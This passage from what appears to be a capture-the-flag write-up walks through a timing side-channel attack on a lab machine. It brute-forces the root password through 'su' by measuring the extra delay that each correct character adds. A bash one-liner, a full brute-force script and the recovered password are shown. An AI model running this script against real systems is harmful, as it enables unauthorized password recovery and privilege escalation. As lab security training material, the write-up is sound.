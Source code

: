 
This works, and finds the first character of the password:

    
    
    jack@toby:/etc$ python3 -c 'import string; print("\n".join(string.printable[:-5]))' | while read c; do echo -en "\r$c "; echo "${c}---------" | time su 2>&1 | grep -Eo '.:..\...elapsed' | grep -v "0:01.0" && break; done
    T 0:01.11elapsed
    

Here’s how it looks (starting midway into the run):

![brute poc](https://0xdfimages.gitlab.io/img/toby-brute-poc.gif)

#### Full Script

At this point, I am going to leave this bash one liner in favor of a bash
script. I have to make the following updates:

  * I know the password is ten characters, so I’ll wrap what I have in a loop over 0-9. It also takes 0.1 seconds longer per correct character, so I’ll use that `i` variable to update the `grep`.
  * To print the password plus padding to get to 10 characters I’ll use `printf` instead of `echo`.
  * I also want to keep a variable with the correct password. I have to get rid of piping into `while read`, as that [runs in a subshell](https://unix.stackexchange.com/questions/402750/modify-global-variable-in-while-loop), which means changes I make to the variable aren’t saved. A slight change in how I feed into the `while` fixes that.
  * I’ll update the password on each loop.

The resulting script is:

    
    
    #!/bin/bash
    
    correct=""
    for i in {0..9}; do
        while read c; do   
            pass="${correct}${c}"
            echo -en "\r${pass} ";     
            printf "%-10s\n" $pass \
            | time su 2>&1 \
            | grep -Eo '.:..\...elapsed' \
            | grep -v "0:01.${i}" \
            && correct="${pass}" \
            && break;
           done <<<$(python3 -c 'import string; print("\n".join(string.printable[:-5]))')
    done
    

It takes about seven minutes to run, but produces a password:

    
    
    jack@toby:/tmp$ time bash brute.sh 
    T 0:01.11elapsed
    Ti 0:01.21elapsed
    Tih 0:01.32elapsed
    TihP 0:01.41elapsed
    TihPA 0:01.51elapsed
    TihPAQ 0:01.61elapsed
    TihPAQ4 0:01.71elapsed
    TihPAQ4p 0:01.81elapsed
    TihPAQ4ps 0:01.92elapsed
    TihPAQ4pse 0:01.00elapsed
    